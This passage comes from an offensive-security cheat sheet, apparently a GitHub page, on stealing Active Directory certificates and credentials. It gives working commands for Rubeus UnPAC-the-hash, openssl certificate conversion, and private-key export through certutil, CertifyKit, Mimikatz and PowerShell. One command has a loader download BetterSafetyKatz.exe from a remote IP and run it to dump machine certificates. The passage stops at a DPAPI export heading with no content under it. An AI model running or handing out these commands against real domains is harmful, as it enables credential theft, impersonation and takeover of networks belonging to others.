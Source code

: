 <br>

### <a name="14"></a>1.4 &nbsp;&nbsp; UnPAC-The-Hash (THEFT5)

```
C:\Tools\Rubeus.exe asktgt /getcredentials /user:COMPUTER_NAME$ /certificate:C:\Certs\COMPUTER_NAME.pfx /password:PASSWORD /domain:DOMAIN /dc:DC.DOMAIN /show
```


<br>

### <a name="15"></a>1.5 &nbsp;&nbsp; Conversion 

Convert .pem to .pfx certificate:

```
C:\Tools\openssl\openssl.exe pkcs12 -in C:\Certs\USER.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\Certs\USER.pfx
```


<br>

### <a name="16"></a>1.6 &nbsp;&nbsp; Export (THEFT1)

Using certutil:

```
certutil -p "PASSWORD" -exportpfx HASH C:\Users\Public\USER.pfx
certutil -exportpfx -p "PASSWORD" -enterprise Root HASH C:\Users\Public\CA_NAME.p12
```

Using CertifyKit:

```
C:\Users\Public\CertifyKit.exe list /storename:my /storelocation:localmachine /certificate:CERTIFICATE_HASH /outfile:C:\Users\Public\USER.pfx
CertifyKit.exe list /certificate:CERTIFICATE_HASH /base64
```

Using Mimikatz:

```
C:\Users\Public\Loader.exe -path http://IP/BetterSafetyKatz.exe -args "crypto::capi" "privilege::debug" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"
```

Using Powershell:

```
$mypwd = ConvertTo-SecureString -String "PASSWORD" -Force -AsPlainText
Export-PfxCertificate -Cert Cert:\LocalMachine\My\CERTIFICATE_HASH -FilePath C:\Users\Public\USER.pfx -Password $mypwd
```

<br>

### <a name="17"></a>1.7 &nbsp;&nbsp; Export - DPAPI (THEFT2 and THEFT3)
